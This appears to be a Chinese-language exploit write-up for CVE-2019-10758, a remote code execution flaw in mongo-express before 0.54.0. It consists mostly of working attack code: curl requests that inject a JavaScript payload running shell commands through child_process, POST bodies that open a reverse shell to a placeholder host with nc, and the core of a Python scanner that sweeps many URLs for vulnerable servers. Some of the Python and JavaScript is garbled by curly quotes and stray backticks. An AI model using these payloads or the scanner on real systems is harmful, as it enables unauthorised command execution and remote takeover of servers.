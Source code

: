 # （CVE-2019-10758）Mongo expres rce

> 原文：[https://www.zhihuifly.com/t/topic/3032](https://www.zhihuifly.com/t/topic/3032)

# （CVE-2019-10758）Mongo expres rce

## 一、漏洞简介

漏洞问题出在lib/bson.js中的toBSON()函数中，路由 /checkValid 从外部接收输入，并调用了存在 RCE 漏洞的代码，由此存在被攻击的风险，可在服务器上进行任意命令执行。

## 二、漏洞影响

mongo-express < 0.54.0

## 三、复现过程

https://github.com/ianxtianxt/CVE-2019-10758

#### 安装环境

```
docker run -p 27017:27017 -d mongo
npm install mongo-express@0.53.0 
cd node_modules/mongo-express/ && node app.js 
```

#### cURL exploit

```
curl 'http://www.0-sec.org:8081/checkValid' -H 'Authorization: Basic YWRtaW46cGFzcw=='  --data 'document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("/Applications/Calculator.app/Contents/MacOS/Calculator")' 
```

```
curl 'http://www.0-sec.org:8081/checkValid' -H 'Authorization: Basic YWRtaW46cGFzcw==' --data 'document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("echo Str1am > file.txt")' 
```

![image](img/16b39f58adcd80d7accd415d73cf71fc.png)

#### Script exploit

```
node main.js 
```

#### main.js

```
exploit = "this.constructor.constructor(\"return process\")().mainModule.require('child_process').execSync('/Applications/Calculator.app/Contents/MacOS/Calculator')" `var bson = require(‘mongo-express/lib/bson’)

bson.toBSON(exploit)` 
```

### 补充

> mongo-express远程代码执行，反弹shell代码如下：

#### POST BODY 1:

```
document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("mkfifo /tmp/f") 
```

#### POST BODY 2：

```
document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("cat /tmp/f | /bin/sh -i 2>%261 | nc x.x.x.x 666 >/tmp/f") 
```

### 批量监测脚本【只放核心代码】

```
payload = r'document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("echo 111111")' `def http_request(url,path_out):

try:

print(“Trying:” + url + ’ ’ + ‘[’ + str(left) + ‘/’ + str(countLines) + ‘]’)

vulurl = url + “/checkValid”

r = requests.post(url=vulurl, headers=headers, data=payload, timeout=10, verify= False)

if r.status_code == 200 and ‘Valid’ in r.text:

print("\033[1;40;32m’Good Found!’ {}\033[0m".format(vulurl))

#printGreen("[+]" + url)

with open(path_out,‘a’) as f:

f.write(vulurl + ‘\n’)

else:

print("[-]" + “r.status_code:” + str(r.status_code) + “,” + “raise.text:” + r.text)

except Exception as err:

print(err)` 
```